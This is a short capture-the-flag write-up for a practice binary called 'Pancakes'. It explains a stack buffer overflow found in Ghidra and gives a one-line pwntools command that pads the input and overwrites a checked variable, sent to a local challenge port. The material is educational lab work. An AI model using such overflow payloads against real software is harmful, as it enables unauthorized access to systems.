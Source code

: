 # Pancakes

## description

Attack this binary to get the flag!

## dev notes

This is a basic buffer overflow challenge.
Set the variable to the correct value to get the flag.

## solution

Manual inspection in Ghidra quickly shows that pancake has a buffer overflow of `local_14` due to the `fgets` into
`local_58`.

![](quick-inspect.png)

Simply fill the buffer that the `fgets` writes to with padding and write the value straight into the checked one!

```bash
python -c "from pwn import *;import sys; sys.stdout.buffer.write(b'a'*68 + p32(0x08406688))" | nc -q1 localhost 4444
```

(Note the use of `p32` from pwntools to get the correct endianness)